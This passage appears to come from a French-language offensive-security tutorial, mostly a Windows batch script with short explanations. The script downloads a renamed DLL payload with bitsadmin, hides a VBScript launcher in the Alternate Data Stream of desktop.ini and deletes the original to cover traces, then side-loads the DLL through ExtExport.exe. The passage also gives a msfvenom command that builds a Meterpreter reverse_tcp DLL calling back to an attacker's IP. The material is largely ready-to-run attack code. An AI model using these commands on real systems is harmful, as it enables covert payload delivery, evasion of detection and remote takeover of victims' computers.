 ```
set PATH_EXTEXPORT_EXE=C:\Program Files\Internet Explorer\Extexport.exe
set EXTEXPORT_ARGS=C:\Users\Public\Libraries\raw foo bar

rem Download the renamed DLL payload from the server.
bitsadmin /transfer 2 /priority FOREGROUND %URL_PAYLOAD_DLL% %PATH_EXTEXPORT_DLL%

rem Use a temporary VBScript to create the LNK launcher.
rem The launcher will take the renamed DLL payload and load it using ExtExport.
echo Set oWS = WScript.CreateObject("WScript.Shell") > %PATH_LAUNCHER_CREATE_VBS%
echo sLinkFile = "%PATH_LAUNCHER_LNK%" >> %PATH_LAUNCHER_CREATE_VBS%
echo Set oLink = oWS.CreateShortcut(sLinkFile) >> %PATH_LAUNCHER_CREATE_VBS%
echo oLink.TargetPath = "%PATH_EXTEXPORT_EXE%" >> %PATH_LAUNCHER_CREATE_VBS%
echo oLink.Arguments = "%EXTEXPORT_ARGS%" >> %PATH_LAUNCHER_CREATE_VBS%
echo oLink.Save >> %PATH_LAUNCHER_CREATE_VBS%

rem Copy the launcher creation VBScript to the Alternate Data Stream (ADS) of desktop.ini and erase it.
type %PATH_LAUNCHER_CREATE_VBS% > %PATH_LAUNCHER_CREATE_ADS% && erase %PATH_LAUNCHER_CREATE_VBS%

rem Execute the launcher creation VBScript from the Alternate Data Stream (ADS).
cscript %PATH_LAUNCHER_CREATE_ADS%

rem Execute the LNK launcher. This will use ExtExport.exe to side load and execute the DLL payload.
start /b %PATH_LAUNCHER_LNK%
```
**Explication:**

Télécharge le payload Meterpreter 

`bitsadmin /transfer <job_name> /priority FOREGROUND <remote_filename> <local_filename>`

Le payload est renommé dans l'un des 3 noms que Extexport recherche (mozcrt19.dll, mozsqlite3.dll or sqlite3.dll) et l'enregistre dans `C:\Users\Public\Libraries\raw` où Extexport le trouvera.

Pour que ça se produise nous avons besoin d'un launcher. Ce launcher est généré par un code VBScript qui se copiera dans l'ADS de desktop.ini et s'auto supprimera pour cacher les traces.

`type <evil_file> <target_file:evil_file> && erase <evil_file>`

Éxecuter le générateur pour obtenir le launcher

`cscript <target_file:evil_file>`

Le launcher utilise ExtExport. Executer le launcher

`start /b <file>`

**3. Création du payload**

Générer un payload Meterpreter au format dll

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacking_ip> LPORT=4444 -f dll -o payload.dll`

![0abeda6d174b5e66d27c678965e8861e.png](/img/cc313ea70e0049f7bf537f46b813a6ab.png)
